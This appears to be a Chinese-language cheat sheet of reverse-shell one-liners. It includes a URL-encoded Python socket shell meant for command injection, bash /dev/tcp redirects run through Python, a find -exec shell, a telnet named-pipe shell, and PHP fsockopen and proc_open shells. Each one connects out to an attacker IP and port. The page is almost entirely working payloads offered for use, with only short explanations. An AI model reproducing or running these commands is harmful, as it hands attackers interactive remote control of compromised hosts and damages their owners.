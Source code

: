 用于命令注入的web环境，命令经过了URL编码

```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.216.128%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22/bin/bash%22%2C%22-i%22%5D%29%3B%27
```

python2 和Python3 执行bash脚本反弹

```
使用os.system函数：
import os
os.system("bash /tmp/shell.sh")


使用subprocess模块：
import subprocess
subprocess.call(["bash", "/tmp/shell.sh"])


bash脚本
echo '/bin/bash -i >& /dev/tcp/192.168.56.102/8888 0>&1' > /tmp/shell.sh
cat /tmp/shell.sh

```
## find反弹shell

```bash
find /etc/passwd -exec bash -ip >& /dev/tcp/192.168.137.138/12345 0>&1 \;
```

## Telnet反弹shell

```powershell
rm -f /tmp/p; mknod /tmp/p p && telnet 127.0.0.1 8080 0/tmp/p 2>&1
```

## php反弹shell

1. `php -r`：执行后面的 PHP 代码。
2. ` $sock=fsockopen("192.168.0.8",7777)`：打开一个到 192.168.0.8 的 7777 端口的 socket 连接。
3. `exec("/bin/sh -i <&3 >&3 2>&3")`：执行/bin/sh命令，并以交互模式运行，并通过 socket 连接读写数据。

#### 1. 使用 `exec` 函数
```php
php -r '$sock=fsockopen("192.168.56.102",1234);exec("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.56.102",1234);exec("/bin/bash -i <&3 >&3 2>&3");'
```

#### 2. 使用 `proc_open` 函数
```php
php -r '$s=fsockopen("10.10.10.11",443);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'
```
